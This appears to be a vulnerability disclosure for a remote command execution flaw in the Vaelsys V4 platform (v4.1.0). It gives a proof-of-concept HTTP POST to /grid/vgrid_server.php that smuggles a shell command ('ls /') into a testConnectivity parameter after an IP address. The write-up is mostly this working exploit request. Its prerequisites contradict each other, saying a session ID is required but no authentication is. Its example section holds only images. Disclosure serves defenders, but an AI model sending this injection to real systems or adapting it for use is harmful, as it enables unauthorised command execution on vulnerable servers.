


# Remote Code Execution in Vaelsys V4 Platform

BUG_Author: waiwai

Affected Version: v4.1.0 

Vendor：[Vaelsys](https://vaelsys.com/)

Product: Vaelsys V4 

Vulnerability Files: /grid/vgrid_server.php

## Description

The vulnerability allows arbitrary command execution by injecting malicious payloads into unfiltered user input parameters that are processed in `execute_DataObjectProc` by `testConnectivity` function located in `grid/vgrid_server.php`.

Prerequisites: Valid PHP session ID (PHPSESSID) required; No authentication required.


## POC

```
POST /grid/vgrid_server.php HTTP/1.1
Host: [target_ip]
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=[valid_session]
xajax=execute_DataObjectProc&xajaxargs[]=auth&xajaxargs[]=testConnectivity&xajaxargs[]=<xjxobj><e><k>0</k><v>192.168.1.201;ls /;</v></e></xjxobj>
```


## Example

Included authchallenge：



Not included authchallenge：The prerequisites have been verified



